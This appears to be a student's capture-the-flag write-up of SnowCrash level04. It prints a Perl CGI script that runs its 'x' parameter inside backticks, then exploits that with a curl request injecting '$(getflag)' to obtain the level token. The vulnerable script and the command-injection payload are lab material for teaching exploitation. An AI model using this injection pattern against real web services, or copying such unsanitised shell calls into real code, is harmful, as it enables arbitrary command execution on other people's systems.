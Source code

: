 
in this level we get a file pl which is perl file

> we cat it to check the content:
--------------------------------
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
--------------------------------

> we tried to read the perl and understand the code first 
we got the hold of the code by searching:
https://www.tutorialspoint.com/perl/perl_subroutines.html

> so the function takes argument then echo whatever it's passed
but all this in the root side and not in level04 side. send a request to the port 4747

> so we need to inject a $(getflag) into the parameter x to get our flag:
--------------------------------
level04@SnowCrash:~$ curl 'localhost:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
--------------------------------

> Good! now lt's get to our level:
--------------------------------
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
--------------------------------
